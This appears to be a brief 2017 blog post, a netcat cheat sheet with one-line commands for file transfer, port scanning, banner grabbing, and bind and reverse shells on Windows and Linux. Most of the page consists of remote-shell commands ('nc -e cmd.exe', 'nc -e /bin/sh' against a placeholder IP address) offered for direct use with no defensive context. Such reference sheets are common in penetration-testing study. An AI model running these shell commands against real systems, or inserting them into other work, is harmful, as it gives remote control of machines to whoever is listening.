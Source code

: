 +++
title = "NetCat CheatSheet"
description = "NetCat CheatSheet"
tags = [ "NetCat", "NC", "CheatSheet", "Easy" ]
date = "2017-01-06"
location = "127.0.0.1"
categories = ["Ncat","CheatSheet"]
slug = "CheatSheet"
type = "post"
+++


### Transfering a File ###

```
nc -lvp 4444 > output.txt        #Receive
nc -nv <IP Address> < input.txt  #Send
```

### Netcat Bind Shell (Windows) ###

```
nc -lvp 4444 -e cmd.exe
nc -nv <IP Address> 4444 #Connect to the shell
```

### Netcat Bind Shell (Linux) ###

```
nc -lvp 4444 -e /bin/sh
nc -nv <IP Address> 4444           #Connect to the shell
```

### Netcat Reverse Shell (Windows) ###

```
nc -lvp 443  # Listening for connection
nc -nv <IP Address> 443 -e cmd.exe
```

### Netcat Reverse Shell (Linux) ###

```
nc -lvp 443
nc -nv <IP Address> 443 -e /bin/sh
```

### Netcat - Port Scanner ###

```
nc -z <IP Address> <Port Range in abc - xyz format>
```

### Netcat Banner Grabbing ###

```
echo "" | nc -nv -w1 <IP Address> <Ports>
```